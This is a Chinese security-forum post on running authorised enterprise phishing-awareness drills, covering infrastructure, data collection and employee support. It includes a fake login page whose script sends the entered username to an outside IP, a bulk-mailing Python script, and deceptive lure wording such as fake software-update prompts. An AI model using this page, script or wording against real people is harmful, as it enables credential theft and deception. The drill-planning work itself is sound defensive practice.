 

# 企业钓鱼演练的一些总结和经验 - 先知社区

企业钓鱼演练的一些总结和经验

- - -

# 前言

钓鱼，搞攻防的师傅们，做红队的师傅们都知道，但是对于在企业实施演练，具体的各种细节，只有经历过一次，把坑踩过了，才知道一些注意事项，阿鑫分享一下大型企业钓鱼演练的一些总结和经验，希望下次有师傅做这个，能够看到阿鑫的文章，避免踩到坑

# 钓鱼准备

首先是我们攻击方，需要准备的东西，钓鱼的主题，服务器，域名，邮件服务器这三样东西，我们一个一个细说  
关于钓鱼的主题，可能是钓账号密码，可能是是恶意附件钓鱼演练。  
主题定了，最重要的是要给领导们看数据：  
如果是恶意附件钓鱼演练，相应的企业对于一些恶意附件的点击可以做一个数据统计，这个比较简单，多少人点了，多少人没有点，这个数据比较直接，钓鱼的恶意附件的 demo 就是弹框，温馨的提示员工们不要随意运行不信任的文件，顺便在附上一个链接，链接里面的内容就是各种办公安全的小 tips 啥的，然后还需要建立一个公关群，给员工们答疑，此外，恶意附件一般可通过邮件发送，当然，如果公司的体量巨大，那我们还有以下几点需要注意：  
（1）邮件肯定是有策略的，我们需要多和邮件部门的同学沟通多要几个账号，以及邮件内容尽量减少触发风控的规则  
（2）文件白名单，某些企业对于未知的应用是有弹框的，可以考虑和文件白名单的同学沟通

如果是钓账号密码，领导同意做一个交互的页面，能够存储输入的账密，那这方面的数据没有问题，也可以判断出脏数据。如果是比较大的企业，你做钓鱼演练，如果真的有员工中招了，输入了自己的账号密码，引发了数据泄露问题或者一些公关问题，所以可能就需要一个前提，在不交互的情况下如何记录数据，这里给出的解决方案是在输入的用户名处记录用户名并且跳转

```bash
<!DOCTYPE html>
<form action="">
Username: <input type="text" name="user" id="useraccount"><br>
Password: <input type="password" name="password" id="userpass">
<div class="test">
<input type="button" value="确定" onclick="check();">
</div>
<script>
function check(){
    var obj = document.getElementById("useraccount");
        if(obj.value === ""){
            alert("输入不能为空！");
            return false;
        }else{
        window.location.href = 'http://1.2.2.2/index.html?user='+document.getElementById("useraccount").value;
      return true;
        }
    }
 </script>
</form>
```

[![](assets/1705886696-061bea8aaf99ac13049c041a8e9d0782.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20221015182102-11ec3f14-4c73-1.jpg)  
下图为简单的实现效果，然后我们就可以查看服务器的 apache 日志记录相关的信息了，这是静态的页面收集信息的方法，此外，最简单的制作一个登陆页面的方法就是 ctrl+s 保存一下就行了，但是我们一定的把 html 里面自己的相关信息给删除掉（工号）

接下来说一说服务器，服务器就和域名一起说了吧，这个也是踩坑最多的，域名的话尽量和公司高度重合，像 BAT 这种大厂，他们也几乎把自己相似的域名全买了，也防止别有用心的人搞事，如果领导在短期内突然告诉你需要钓鱼，域名报备这一流程至少的花一周的时间，这个时候推荐用海外的服务器，即可解决。选服务器也一定要征求领导的意见，因为服务器涉及了钓鱼演练最核心的数据交互环节，一定要再三和领导确认用哪一家的服务器，腾讯云，阿里云都有国际版。服务器选择好了（建议 1 核 2G，体量大就 2 核 4G），现在需要对服务器做压力测试，公司人少的话或者抽样钓鱼可不用测，体量大的话这一环节必不可少，我推荐用 http\_load。然后部署的话就正常用 apache 或者 nginx，ssh 或者 smb 别用弱口令就行，多余的服务，什么 redis 啊这些就别开了

最后说一说邮件服务器，网上已经有很多文章在介绍 gophish 配合 ewomail 打组合拳，或者配合 postfix，网上有很多这种类似的文章，但是当企业的领导认为这不符合安全合规或者存在数据安全的风险，那么这条路就是不行的，如果公司跟云企业（腾讯云，华为云，阿里云等）是合作关系，可以询问领导的意见是否可以用他们的企业邮箱，他们的企业邮箱都是自带了邮件服务器，而且有各种 api 接口，后面体量比较大的话，批量发送邮件这个问题也能解决，比如阿里云的企业邮箱，我这里直接把代码 copy 过来。

```bash
# -*- coding:utf-8 -*-

import urllib, urllib2
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.header import Header

# 发件人地址，通过控制台创建的发件人地址
username = 'xxx@xxx.com'
# 发件人密码，通过控制台创建的发件人密码
password = 'XXXXXXXX'

# 收件人地址列表，支持多个收件人，最多 30 个
rcptlist = ['to1@to.com', 'to2@to.com']
receivers = ','.join(rcptlist)

# 构建 multipart 的邮件消息
msg = MIMEMultipart('mixed')
msg['Subject'] = 'Test Email'
msg['From'] = username
msg['To'] = receivers

# 构建 multipart/alternative 的 text/plain 部分
alternative = MIMEMultipart('alternative')
textplain = MIMEText('纯文本部分', _subtype='plain', _charset='UTF-8')
alternative.attach(textplain)

# 构建 multipart/alternative 的 text/html 部分
texthtml = MIMEText('超文本部分', _subtype='html', _charset='UTF-8')
alternative.attach(texthtml)

# 将 alternative 加入 mixed 的内部
msg.attach(alternative)

# 附件类型
# xlsx 类型的附件
xlsxpart = MIMEApplication(open('测试文件 1.xlsx', 'rb').read())
xlsxpart.add_header('Content-Disposition', 'attachment', filename=Header("测试文件 1.xlsx","utf-8").encode())
msg.attach(xlsxpart)

# jpg 类型的附件
jpgpart = MIMEApplication(open('2.jpg', 'rb').read())
jpgpart.add_header('Content-Disposition', 'attachment', filename=Header("2.jpg","utf-8").encode())
msg.attach(jpgpart)

# mp3 类型的附件
mp3part = MIMEApplication(open('3.mp3', 'rb').read())
mp3part.add_header('Content-Disposition', 'attachment', filename=Header("3.mp3","utf-8").encode())
msg.attach(mp3part)

# 发送邮件
try:
    client = smtplib.SMTP()
    #python 2.7 以上版本，若需要使用 SSL，可以这样创建 client
    #client = smtplib.SMTP_SSL()

    client.connect('smtpdm.aliyun.com')
    client.login(username, password)
    #发件人和认证地址必须一致
    client.sendmail(username, rcptlist, msg.as_string())
    client.quit()
    print '邮件发送成功！'
except smtplib.SMTPRecipientsRefused:
    print '邮件发送失败，收件人被拒绝'
except smtplib.SMTPAuthenticationError:
    print '邮件发送失败，认证错误'
except smtplib.SMTPSenderRefused:
    print '邮件发送失败，发件人被拒绝'
except smtplib.SMTPException,e:
    print '邮件发送失败，', e.message
```

此外，批量发送每天发送的邮件数量有上限，需要合理安排每天发送钓鱼邮件的数量。

# 钓鱼期间

钓鱼期间我们需要随时查看钓鱼的数据和情况，比如邮件发送成功率这些（邮件服务器都有这些统计的功能），然后还要统计一下数据（这里以登陆口钓鱼举例）：  
（1）有多少同学只是点进去看了邮件  
（2）有多少同学点进去看了邮件并且访问了恶意网站  
（3）有多少同学访问了恶意网站输入了账密（乱输的）  
（4）有多少同学访问了恶意网站输入了账密（正确的用户名即可）  
（5）有多少同学举报了今天收到了钓鱼邮件  
钓鱼期间，一定需要建立公关答疑群，不管公司体量大还是小，因为许多同事可能真的没有什么安全经验，输入了自己的账号密码或者运行了恶意附件，然后也不知道找谁问问，又或者胡思乱想公司是不是考验我啥的或者和绩效挂钩？所以答疑群是必要的，此外，答疑群的部分同学甚至可以给出一些比较好的意见，我们也可以在钓鱼期间优化。

这里再说一说关于钓鱼文案，因为钓鱼的文案直接关乎了钓鱼成功率，这里有一个小技巧，我们可以打开公司公司的邮件，他们有图片，有颜文字，邮件其实也是 html 格式的，我们可以直接模仿，有图片，有颜文字的邮件可以起到一个更逼真的效果，咱们企业内部钓鱼，什么晋升，加薪，年假这些可千万不能用，很敏感的，如果要正常的登陆口钓鱼，我们可以用以下文案：  
（1）账号异常类（登陆认证过期，密码过期，账号异常等）  
（2）关于程序员需要知道的知识点（类似于这种），访问后就需要输入账号密码

如果是附件钓鱼的，我们可以用一下文案：  
（1）看公司用的啥通信软件（飞书，企业微信，钉钉），说这几款软件需要更新，需要运行我们的附件  
（2）系统更新，兼容性插件

此外，建议同一个部门别再一个时间发送，不然其他同事会相互讨论，你们有收到这封邮件么，以及相似的文案，不能相同，比如有 5 个钓鱼的邮件账号，我们这 5 个钓鱼的文案可以相似，但不能完全一模一样。

# 结尾

最后肯定就是把数据呈现给领导，发了多少封钓鱼邮件，多少输了账密，看钓鱼期间需要统计的数据，企业员工的网络安全意识也不是一朝一夕就可以发展好的，需要长久的宣传
